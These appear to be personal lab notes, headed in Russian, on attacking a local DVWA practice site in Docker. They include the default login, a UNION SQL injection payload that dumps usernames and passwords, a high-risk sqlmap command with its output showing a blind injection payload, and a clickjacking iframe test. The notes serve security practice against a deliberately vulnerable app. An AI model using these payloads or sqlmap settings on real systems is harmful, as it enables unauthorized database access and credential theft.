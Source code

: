 ## Запуск тестового сайта

```
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```

http://localhost/index.php
reset/create database
admin
password
%' and 1=0 union select null, concat(user,':',password) from users #

python3 -m sqlmap -r ../dvwa/sqlmap.example --dbms=mysql --risk=3 --level=5
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 502 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: id=1' OR NOT 4197=4197-- twle&Submit=Submit
---

file:///home/mgolubev/Projects/dvwa/iframe.html
Refused to display 'https://ya.ru/' in a frame because it set 'X-Frame-Options' to 'deny'.

